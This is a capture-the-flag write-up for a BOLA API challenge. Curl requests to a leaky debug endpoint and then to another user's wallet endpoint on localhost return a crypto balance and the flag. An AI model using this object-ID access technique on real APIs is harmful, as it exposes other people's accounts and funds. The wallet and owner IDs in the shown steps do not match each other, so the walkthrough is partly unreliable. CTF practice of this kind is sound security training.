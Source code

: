 # CryptoWorld : Simple BOLA challenge 

## Author: h1dr1

## Description: A simple BOLA challenge to exploit an api to get the flag in the walled attribute
## playing with curl is the objective and exploiting exposed api endpoints

For viewing the content of the debug api endpoint

```curl -X GET http://localhost:8000/api/debug```

```{"note":"This is a debugging endpoint. Do not use it in production","hint":"Check the /api/wallet/{wallet_id} endpoint carefully...","current_authenticated_user":{"id":"3b353b88d28573bc","username":"alice"},"bob_user":{"id":"73d432d2ba54d8e8","username":"bob"},"bob_eth_wallet_id":"604ef48a5d6f9593","total_users":2,"total_wallets":4}% ```

now we have the wallet id of bob and we can use it to get the flag 

```curl -X GET http://localhost:8000/api/wallet/af9d51c6acca6533         ```                                                                                                            ─╯
```{"owner_id":"3f4552d1fbca766a","balance":500.0,"currency":"ETH","FLAG":"SecurinetsENIT{01c1ff55c322453ab1e016bf7dbc6537}"}% ```


I hope you enjoyed it. ;) Keep hacking! and star the repo please
